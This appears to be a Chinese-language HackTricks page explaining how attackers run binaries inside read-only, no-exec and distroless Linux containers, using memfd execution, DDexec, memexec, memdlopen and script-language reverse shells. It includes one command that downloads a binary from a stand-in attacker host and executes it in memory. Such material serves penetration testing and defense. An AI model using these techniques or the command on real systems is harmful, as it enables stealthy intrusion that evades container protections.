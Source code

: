 # 绕过文件系统保护：只读 / 无执行 / Distroless

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果你对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

## 视频

在以下视频中，你可以找到本页面提到的技术的更深入解释：

* [**DEF CON 31 - 探索 Linux 内存操控以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**使用 DDexec-ng 和内存 dlopen() 的隐蔽入侵 - HackTricks 2023 轨道**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 只读 / 无执行场景

在 Linux 机器上发现 **只读 (ro) 文件系统保护** 的情况越来越普遍，特别是在容器中。这是因为运行一个只读文件系统的容器就像在 `securitycontext` 中设置 **`readOnlyRootFilesystem: true`** 一样简单：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统被挂载为只读，**`/dev/shm`** 仍然是可写的，因此我们不能在磁盘上写入任何内容的说法是错误的。然而，这个文件夹将被 **挂载为无执行保护**，因此如果你在这里下载一个二进制文件，你 **将无法执行它**。

{% hint style="warning" %}
从红队的角度来看，这使得 **下载和执行** 系统中未存在的二进制文件（如后门或枚举工具如 `kubectl`）变得 **复杂**。
{% endhint %}

## 最简单的绕过：脚本

请注意，我提到的是二进制文件，只要解释器在机器内部，你可以 **执行任何脚本**，例如如果 `sh` 存在则可以执行 **shell 脚本**，或者如果安装了 **python** 则可以执行 **python 脚本**。

然而，这并不足以执行你的二进制后门或其他你可能需要运行的二进制工具。

## 内存绕过

如果你想执行一个二进制文件，但文件系统不允许这样做，最好的方法是 **从内存中执行它**，因为 **保护措施不适用于那里**。

### FD + exec 系统调用绕过

如果你在机器内部有一些强大的脚本引擎，例如 **Python**、**Perl** 或 **Ruby**，你可以将二进制文件下载到内存中执行，将其存储在内存文件描述符中（`create_memfd` 系统调用），这不会受到这些保护的限制，然后调用 **`exec` 系统调用** 指定 **fd 作为要执行的文件**。

为此，你可以轻松使用项目 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。你可以传递一个二进制文件，它将生成一个指定语言的脚本，包含 **压缩和 b64 编码的二进制文件** 以及 **解码和解压缩** 的指令，存储在调用 `create_memfd` 系统调用创建的 **fd** 中，并调用 **exec** 系统调用来运行它。

{% hint style="warning" %}
这在其他脚本语言如 PHP 或 Node 中不起作用，因为它们没有任何 **默认方式从脚本调用原始系统调用**，因此无法调用 `create_memfd` 来创建 **内存 fd** 来存储二进制文件。

此外，使用 `/dev/shm` 中的文件创建 **常规 fd** 也不会有效，因为你将无法运行它，因为 **无执行保护** 将适用。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 是一种技术，允许你通过覆盖 **`/proc/self/mem`** 来 **修改你自己进程的内存**。

因此，**控制正在被进程执行的汇编代码**，你可以编写 **shellcode** 并“变异”进程以 **执行任何任意代码**。

{% hint style="success" %}
**DDexec / EverythingExec** 将允许你加载并 **执行** 你自己的 **shellcode** 或 **任何二进制文件** 从 **内存** 中。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
有关此技术的更多信息，请查看 Github 或：

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) 是 DDexec 的自然下一步。它是一个 **DDexec shellcode demonised**，因此每次您想要 **运行不同的二进制文件** 时，您无需重新启动 DDexec，只需通过 DDexec 技术运行 memexec shellcode，然后 **与此守护进程通信以传递要加载和运行的新二进制文件**。

您可以在 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) 找到如何使用 **memexec 从 PHP 反向 shell 执行二进制文件** 的示例。

### Memdlopen

与 DDexec 具有类似目的的 [**memdlopen**](https://github.com/arget13/memdlopen) 技术允许以 **更简单的方式加载二进制文件** 到内存中以便稍后执行。它甚至可以允许加载带有依赖项的二进制文件。

## Distroless Bypass

### 什么是 distroless

Distroless 容器仅包含 **运行特定应用程序或服务所需的最低组件**，例如库和运行时依赖项，但排除了较大的组件，如包管理器、shell 或系统实用程序。

Distroless 容器的目标是 **通过消除不必要的组件来减少容器的攻击面**，并最小化可以被利用的漏洞数量。

### 反向 Shell

在 distroless 容器中，您可能 **甚至找不到 `sh` 或 `bash`** 来获取常规 shell。您也不会找到 `ls`、`whoami`、`id` 等二进制文件……您通常在系统中运行的所有内容。

{% hint style="warning" %}
因此，您 **将无法** 获取 **反向 shell** 或 **枚举** 系统，如您通常所做的那样。
{% endhint %}

然而，如果被攻陷的容器正在运行例如 flask web，那么 python 已安装，因此您可以获取 **Python 反向 shell**。如果它正在运行 node，您可以获取 Node 反向 shell，几乎任何 **脚本语言** 也是如此。

{% hint style="success" %}
使用脚本语言，您可以 **使用语言功能枚举系统**。
{% endhint %}

如果没有 **`read-only/no-exec`** 保护，您可以利用您的反向 shell **在文件系统中写入您的二进制文件** 并 **执行** 它们。

{% hint style="success" %}
然而，在这种类型的容器中，这些保护通常会存在，但您可以使用 **之前的内存执行技术来绕过它们**。
{% endhint %}

您可以在 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) 找到 **示例**，了解如何 **利用一些 RCE 漏洞** 来获取脚本语言的 **反向 shell** 并从内存中执行二进制文件。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果您对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
